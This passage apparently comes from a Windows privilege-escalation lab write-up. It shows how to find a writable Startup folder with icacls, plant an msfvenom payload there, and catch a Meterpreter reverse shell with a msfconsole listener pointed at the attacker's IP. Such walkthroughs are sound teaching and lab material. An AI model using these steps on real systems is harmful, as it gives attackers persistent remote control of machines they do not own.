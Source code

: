 ### Startup Applications

As wonderful as Powerup.ps1 is, there are some things it can't check.

Checking start up applications requires a different tool.  Start up applications run when the computer starts up.  If we can compromise one of those programs, then we can compromise the device.

`icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`

![pic17](Images/pic17.png)

`icacls.exe` is a built in windows tool used for checking permissions on different things.  The circled Users:(F), specifically the F part, means we have full control (access).

https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls

This is the full documentation for that tool.

Used msfvenom to craft a payload as an exe file.  Then used python to serve that folder up in a webserver fashion.  Downloaded the payload, dropped it into the startup folder.

Used msfconsole to fire up a listener.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.6.x.x
lhost => 10.6.x.x
```

Change the x's to your local ip.

Once the device is logged into by an administrator, you have your shell :)

![pic18](Images/pic18.png)

